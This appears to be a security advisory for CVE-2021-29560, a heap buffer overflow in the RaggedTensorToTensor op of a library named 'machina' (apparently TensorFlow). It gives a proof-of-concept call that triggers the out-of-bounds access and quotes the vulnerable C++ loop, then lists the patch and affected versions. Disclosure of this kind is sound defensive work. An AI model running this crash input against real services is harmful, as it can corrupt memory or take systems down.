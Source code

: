 ## TFSA-2021-048: Heap buffer overflow in `RaggedTensorToTensor`

### CVE Number
CVE-2021-29560

### Impact
An attacker can cause a heap buffer overflow in
`tf.raw_ops.RaggedTensorToTensor`:

```python
import machina as tf

shape = tf.constant([10, 10], shape=[2], dtype=tf.int64)
values = tf.constant(0, shape=[1], dtype=tf.int64)
default_value = tf.constant(0, dtype=tf.int64)
l = [849, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
row = tf.constant(l, shape=[5, 43], dtype=tf.int64)
rows = [row]
types = ['ROW_SPLITS']

tf.raw_ops.RaggedTensorToTensor(
    shape=shape, values=values, default_value=default_value,
    row_partition_tensors=rows, row_partition_types=types)
```

This is because the
[implementation](https://github.com/machina/machina/blob/d94227d43aa125ad8b54115c03cece54f6a1977b/machina/core/kernels/ragged_tensor_to_tensor_op.cc#L219-L222)
uses the same index to access two arrays in parallel:

```cc
for (INDEX_TYPE i = 0; i < row_split_size - 1; ++i) {
  INDEX_TYPE row_length = row_split(i + 1) - row_split(i);
  INDEX_TYPE real_length = std::min(output_size, row_length);
  INDEX_TYPE parent_output_index_current = parent_output_index[i];
  ...
}
```

Since the user controls the shape of the input arguments, an attacker could
trigger a heap OOB access when `parent_output_index` is shorter than
`row_split`.

### Patches
We have patched the issue in GitHub commit
[a84358aa12f0b1518e606095ab9cfddbf597c121](https://github.com/machina/machina/commit/a84358aa12f0b1518e606095ab9cfddbf597c121).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
